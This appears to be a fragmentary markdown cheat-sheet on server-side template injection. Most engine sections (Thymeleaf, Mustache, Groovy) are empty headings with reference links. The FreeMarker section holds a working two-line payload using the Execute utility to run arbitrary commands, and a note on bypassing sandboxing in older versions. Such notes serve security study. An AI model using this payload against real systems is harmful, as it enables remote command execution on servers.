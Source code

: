 # Type
## `FreeMarker`
Templete - upload - insert data - render
 ```
 poc.ftl
 <#assign value = "freemarker.template.utility.Execute"?new()> 
 ${value("cmd")}
 ```
- Bypass
  - below 2.3.29: ProtectionDomain.getClassLoader


 ## `Thymleaf`
 
 ## `Mustache`
 
 ## `Groovy`
 
 ## `xx`
 
 
## Reports
- [Hacking JasperReports](https://foxglovesecurity.com/2016/10/14/hacking-jasperreports-the-hidden-shell-feature/)

## CVE Analysis

## Reference
- [Exploiting 用户自定义模版引擎](https://www.secpulse.com/archives/73381.html)
